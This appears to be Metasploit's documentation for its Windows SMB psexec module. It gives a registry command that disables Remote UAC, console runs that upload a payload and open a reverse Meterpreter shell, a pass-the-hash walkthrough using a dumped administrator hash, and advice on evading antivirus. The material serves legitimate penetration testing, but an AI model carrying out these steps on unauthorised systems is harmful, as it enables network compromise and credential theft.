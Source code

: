 ## Vulnerable Application
PsExec is one of the most popular exploits against Microsoft Windows. It is a great way to test password security and demonstrate how a
stolen password could lead to a complete compromise of an entire corporate network.

To be able to use `exploit/windows/smb/psexec`:

1. A valid username and password must be set.
1. The firewall must allow SMB traffic.
1. The remote Windows machine's network security policy must allow it. See the "Disabling Remote UAC" section below.

### Disabling Remote UAC
If the specified account is a local Administrator and the target is Windows Vista or newer, then "Remote UAC" must be
disabled (the `DWORD` value
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` must be 1).
See [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy][1] for more information. Without this setting, the
server will respond with `STATUS_ACCESS_DENIED` and PsExec will fail.

Set this registry with the following command:
```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## Verification Steps

At the minimum, you should be able use psexec to get a session with a valid credential using the following:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter > 
```

## Options

By default, using exploit/windows/smb/psexec can be as simple as setting the RHOST option, and you're ready to go. But in reality, you will
probably need to at least configure:

**The SMBUser Option**

This is a valid Windows username.

**The SMBPass option**

This can be either the plain text version or the Windows hash.

## Scenarios


**Pass the Hash**

One common penetration testing scenario using psexec is that attackers usually begin by breaking into a box, dumping the hashes, and using
some of those hashes to log into other boxes on the network using psexec. So in that scenario, with the following stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

You can simply copy and paste it to the SMBPass option in psexec and get a session without needing to crack the hash:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter > 
```

**Automatic Target**

There are multiple targets available for exploit/windows/smb/psexec. The Automatic target is the default target. If the  Automatic target
detects Powershell on the remote machine, it will try Powershell, otherwise it uses the natie upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell command with a payload embedded in it. Since this approach does not
leave anything on disk, it is a very powerful way to evade antivirus. However, older Windows machines might not support Powershell by
default.

Because of this, you will probably want to use the Automatic target setting. The automatic mode will check if the target supports
Powershell before it tries it; the manually set Powershell target won't do that.

**Native Upload Target**

The Native target will attempt to upload the payload (executable) to SYSTEM32 (which can be modified with the
SHARE datastore option), and then execute it with psexec.

This approach is generally reliable, but has a high chance of getting caught by antivirus on the target. To counter this, you can try to
use a template by setting the EXE::Path and EXE::Template datastore options. Or, you can supply your own custom EXE by setting the
`EXE::Custom` option.

**MOF Upload Target**

The [MOF](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows) target
technically does not use psexec; it does not explicitly tell Windows to execute anything. All it does is upload two files: the payload
(exe) in SYSTEM32 and a managed object format file in SYSTEM32\wbem\mof\ directory. When Windows sees the MOF file in that directory, it
automatically runs it. Once executed, the code inside the MOF file basically tells Windows to execute our payload in SYSTEM32, and you get
a session.

Although it's a neat trick, Metasploit's MOF library only works against Windows XP and Windows Server 2003. And since it writes files to
disk, there is also a high chance of getting caught by antivirus on the target.

The best way to counter antivirus is still the same. You can either use a different template by setting the EXE::Path and EXE::Template
datastore options or you can supply your own custom EXE by setting the EXE::Custom option.

**Command**

The command target causes the psexec operation to execute an operating system command. This can either be a `cmd/windows/` payload provided
by Metasploit, or the user can specify their own by using the `cmd/windows/generic` payload and setting `CMD`. The output of the command
will be written to a file and then retrieved so that it is accessible. If the command does not immediately return, then reading the output
will fail.

[1]: https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/
